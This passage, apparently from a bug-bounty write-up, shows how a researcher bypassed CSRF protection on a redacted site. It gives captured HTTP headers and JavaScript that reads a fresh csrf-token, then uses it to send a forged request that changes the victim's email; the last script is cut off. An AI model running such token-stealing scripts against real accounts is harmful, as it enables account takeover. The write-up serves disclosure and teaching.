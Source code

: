 ``` 
Cookie: JSESSIONID=_zo6sV5qYkxhYwSCULJ4KRzOqP3G_-xVma2rKVPo; csrf-token=0b84028f-35de-4bd6-bf72-a0a776a7b3f2;
```

```
Response ->

HTTP/1.1 200 OK
Content-Type: application/json;charset=UTF-8
Connection: close
Date: Fri, 04 Oct 2019 15:08:38 GMT
Server: nginx
Expires: Thu, 01 Jan 1970 00:00:00 GMT
Cache-Control: no-cache, no-store, must-revalidate
Set-Cookie: csrf-token=725d97de-550d-4644-9579-d4b3e1209ded; path=/; secure; HttpOnly
X-XSS-Protection: 1; mode=block
Pragma: no-cache
csrf-token: 725d97de-550d-4644-9579-d4b3e1209ded
Content-Security-Policy: frame-ancestors 'self'
X-Content-Type-Options: nosniff
[...]

```

* So, he concluded that when making a request to endpoint **/token** , the server make a **new csrf-token cookie** 

* So, we need this request to **retrieve the csrf-token**

* He used this script for such purpose ->

```
var xhr = new XMLHttpRequest();
var method = 'GET';
var url = 'https://redacted.com/token';
xhr.open(method,url,true);
xhr.send(null);

xhr.onreadystatechange = function()
{
 var token = xhr.getResponseHeader('csrf-token');
 alert(token);
}
```

* And he got the CSRF-Token 

![](https://miro.medium.com/max/500/0*S0FlClsV3LTmQ3ty.png)


Perfect


* Now, he combined it with request to change the email address ->

```
var xhr = new XMLHttpRequest();
var method = 'GET';
var url = 'https://redacted.com/token';
xhr.open(method,url,true);
xhr.send(null);

xhr.onreadystatechange = function()
{
 var token = xhr.getResponseHeader('csrf-token'); // ngambil token dari response header

 xhr.open("POST","https://redacted.com/user/changeEmail", true);
 xhr.withCredentials="true";
 xhr.setRequestHeader("csrf-token", token);
```